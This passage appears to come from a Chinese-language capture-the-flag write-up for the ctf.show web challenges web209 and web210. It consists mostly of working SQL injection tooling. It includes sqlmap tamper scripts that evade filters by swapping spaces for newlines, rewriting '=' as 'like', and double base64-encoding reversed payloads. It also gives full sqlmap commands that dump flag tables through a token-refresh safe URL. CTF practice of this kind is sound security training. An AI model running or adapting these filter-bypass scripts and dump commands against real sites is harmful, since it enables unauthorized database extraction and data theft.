 ```python
            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == "*":
                retVal += chr(0x31)
                continue

            elif payload[i] == "=":
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal

```

```
python2 sqlmap.py -u http://d93f9b84-d223-4f3d-8786-2b92e5b2535f.chall.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show  --headers="Content-Type:text/plain" --safe-url="http://d93f9b84-d223-4f3d-8786-2b92e5b2535f.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flav --dump  --tamper=web209 --batch
```

## web210~字符串编码

> ```
> //对查询字符进行解密
>   function decode($id){
>     return strrev(base64_decode(strrev(base64_decode($id))));
>   }
> ```

先解码再字符反转再解码再字符反转.

```
python2 sqlmap.py -u http://b34c15e0-d318-4afa-a8e1-9e4a306571c2.chall.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show  --headers="Content-Type:text/plain" --safe-url="http://b34c15e0-d318-4afa-a8e1-9e4a306571c2.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flavi --dump  --tamper=web210 --batch
```

```python
#!/usr/bin/env python

import base64
from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):

    if payload:
        payload = base64.b64encode(payload[::-1].encode("utf-8"))
        payload = base64.b64encode(payload[::-1].encode("utf-8"))
    return payload

```